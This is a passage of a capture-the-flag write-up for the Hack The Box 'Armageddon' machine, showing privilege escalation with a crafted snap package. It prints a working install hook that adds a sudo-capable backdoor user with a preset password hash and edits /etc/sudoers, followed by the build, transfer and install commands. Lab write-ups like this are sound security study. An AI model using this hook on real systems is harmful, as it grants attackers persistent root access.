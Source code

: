 ```bash
ghohst@ghohst-VirtualBox:~$ sudo snap install --classic snapcraft
snapcraft 4.6.3 from Canonical✓ installed
ghohst@ghohst-VirtualBox:~$ cd Documents/
ghohst@ghohst-VirtualBox:~/Documents$ mkdir -p ~/mysnaps/hello
ghohst@ghohst-VirtualBox:~/Documents$ cd ~/mysnaps/
ghohst@ghohst-VirtualBox:~/mysnaps$ cd hello
ghohst@ghohst-VirtualBox:~/mysnaps/hello$ ls
ghohst@ghohst-VirtualBox:~/mysnaps/hello$ snapcraft init
Created snap/snapcraft.yaml.
Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.
ghohst@ghohst-VirtualBox:~/mysnaps/hello$ ls
snap
ghohst@ghohst-VirtualBox:~/mysnaps/hello$ cd snap
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ ls
snapcraft.yaml
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ gedit snapcraft.yaml 
```

Modify the YAML to include the dirty socks description, I left the remainder at default:
```bash
name: dirty-sock
version: '0.1'
summary: Empty snap, used for exploit
description: 'See https://github.com/initstring/dirty_sock'

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  my-part:
    # See 'snapcraft plugins'
    plugin: nil
```

Make our hooks folder, make our 'dirty' file, modify the mode to executable:
```bash
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ mkdir hooks
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ touch hooks/dirty
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ chmod a+x hooks/dirty
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ gedit hooks/dirty
```

Modify my newly created dirty file to include the intended dirty socks commands:
```bash
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Build the package:
```bash
ghohst@ghohst-VirtualBox:~/mysnaps/hello/snap$ snapcraft
This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
This project is best built on 'Ubuntu 16.04', but is building on a 'Ubuntu 20.04' host.
Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
Pulling my-part 
Building my-part 
Staging my-part 
Priming my-part 
Snapping 'dirty-sock' |                                                                              
Snapped dirty-sock_0.1_amd64.snap
```

Push the file to the target machine:
```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/arma]
└─# scp dirty-sock_0.1_amd64.snap brucetherealadmin@10.10.10.233:/home/brucetherealadmin 
brucetherealadmin@10.10.10.233's password: 
dirty-sock_0.1_amd64.snap                     100% 4096    59.7KB/s   00:00 
```

Install the snap:
```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install dirty-sock_0.1_amd64.snap --devmode
dirty-sock 0.1 installed
[brucetherealadmin@armageddon ~]$ 
```

Switched user to dirty sock, ran a sudo -l and confirmed I have all the permissions necessary, cat'd out the root.txt and that's that!

```bash
[dirty_sock@armageddon usr]$ sudo cat /root/root.txt
```